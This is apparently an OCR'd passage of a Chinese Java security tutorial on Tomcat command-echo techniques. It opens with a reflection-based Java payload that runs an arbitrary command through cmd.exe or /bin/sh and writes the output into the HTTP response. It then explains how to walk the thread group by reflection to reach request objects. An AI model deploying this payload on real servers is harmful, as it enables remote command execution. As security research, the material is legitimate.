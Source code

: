 ```java
                    resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                    byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next().getBytes();
                    try {
                        Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                        obj = cls.newInstance();
                        cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                        resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                    } catch (NoSuchMethodException var5) {
                        Class cls = Class.forName("java.nio.ByteBuffer");
                        obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                        resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                    }
                    flag = true;
                }
                if (flag) break;
            }
            if (flag)  break;
        }catch(Exception e){
            continue;
        }
    }
```

----

### Thread

1、每个Java应用程序都有一个执行Main()函数的默认主线程。**这个就是主线程**
2、应用程序也可以创建线程在后台运行。Java主要是通过Java.Lang.Thread类以及Java.lang.Runnable接口来实现线程机制的。**这边所有的都是其余线程**

在Java的反射中，get方法是可以获取该字段对应的对象，但有一定的条件。ps：在文末补充知识点补充

```
 		// 获取当前线程组
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        // 反射获取字段threads
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        // f.get(group) 获取 threads 线程中数组对象
        Thread[] threads = (Thread[]) f.get(group);
```

开启一个spring boot 服务，debug看一下流程。

![image-20210621171304714](https://gitee.com/samny/images/raw/master/summersec//4u13er4ec/4u13er4ec.png)
